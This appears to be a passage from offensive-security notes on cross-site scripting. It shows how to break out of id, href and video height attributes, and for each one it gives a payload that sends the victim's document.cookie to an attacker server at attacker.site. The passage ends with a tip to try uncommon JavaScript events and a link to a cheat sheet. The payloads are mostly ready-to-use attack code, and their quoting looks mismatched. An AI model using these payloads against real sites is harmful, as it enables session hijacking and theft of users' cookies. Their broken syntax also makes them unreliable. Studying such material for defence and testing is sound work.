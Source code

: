 ##### a) id

For instance, this injection endpoint (INJ):

```html
<div id="INJ">
```

A payload for grabbing the cookies and have them sent to our attacker server would be:

```html
x" onmouseover="new Image().src="https://attacker.site/c.php?cc='+escape(document.cookie)
```


##### b) href

For instance, this injection endpoint (INJ):

```html
<a href="victim.site/#INJ">
```

A payload for grabbing the cookies and have them sent to our attacker server would be:

```html
x" onmouseover="new Image().src="https://attacker.site/c.php?cc='+escape(document.cookie)
```

##### c) height

For instance, this injection endpoint (INJ):

```html
<video  width="320" height="INJ">
```

A payload for grabbing the cookies and have them sent to our attacker server would be:

```html
240" src=x onerror="new Audio().src="https://attacker.site/c.php?cc='+escape(document.cookie)
```


**1.** One nice technique is using non-common javascript events.

```
# The usual payloads contains these events:
alert()
confirm()
prompt()

# Try others:
onload()
onerror()
onmousehover
...
```

See complete reference at: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
